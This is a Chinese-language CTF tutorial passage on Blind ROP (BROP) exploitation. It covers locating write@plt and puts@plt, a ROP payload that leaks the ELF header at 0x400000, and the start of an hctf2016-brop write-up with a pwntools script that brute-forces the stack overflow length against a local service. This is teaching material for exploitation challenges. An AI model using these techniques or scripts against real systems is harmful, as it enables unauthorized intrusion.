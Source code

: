 >
>   只有最后一种格式，程序才会正常执行。
>
> * 没有 PIE 保护的时候，64 位程序的 ELF 文件的 `0x400000` 处有 7 个非零字节。



#### 寻找输出函数

> 寻找输出函数既可以寻找 write，也可以寻找 puts。一般现先找 puts 函数。不过这里为了介绍方便，先介绍如何寻找 write。

##### 寻找write@plt

当我们可以控制 write 函数的三个参数的时候，我们就可以再次遍历所有的 plt 表，根据 write 函数将会输出内容来找到对应的函数。需要注意的是，这里有个比较麻烦的地方在于我们需要找到文件描述符的值。一般情况下，我们有两种方法来找到这个值

- 使用 rop chain，同时使得每个 rop 对应的文件描述符不一样
- 同时打开多个连接，并且我们使用相对较高的数值来试一试。

需要注意的是

- linux 默认情况下，一个进程最多只能打开 1024 个文件描述符。
- posix 标准每次申请的文件描述符数值总是当前最小可用数值。

当然，我们也可以选择寻找 puts 函数。

##### 寻找puts@plt

寻找 `puts` 函数 (这里我们寻找的是`plt`)，我们自然需要控制 `rdi` 参数，在上面，我们已经找到了 `brop gadget`。那么，我们根据 `brop gadget` 偏移 9 可以得到相应的 `gadgets`（由 ret2libc_csu_init 中后续可得）。同时在程序还没有开启 PIE 保护的情况下，0x400000 处为 ELF 文件的头部，其内容为 \ x7fELF。所以我们可以根据这个来进行判断。一般来说，其 payload 如下

```python
payload = b'A'*length +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)
```



## writeup_brop

> 采取题目是`hctf2016-brop`

### 确定栈溢出长度

```python
from pwn import *

def getbuffer_len():
  i=1
  while 1:
    try:
      io = remote('127.0.0.1',9999)
      io.recvuntil(b'WelCome my friend,Do you know password?\n')
      io.send(i*b'a')
      output = io.recv()
      io.close()
      if not output.startswith(b'No password'):
        return i-1
      else:
        i+=1
    except EOFError:
        io.close()
        return i-1


if __name__ == "__main__":
    buffer_len = getbuffer_len()
    print("The length of buffer overflow is ",buffer_len)
```
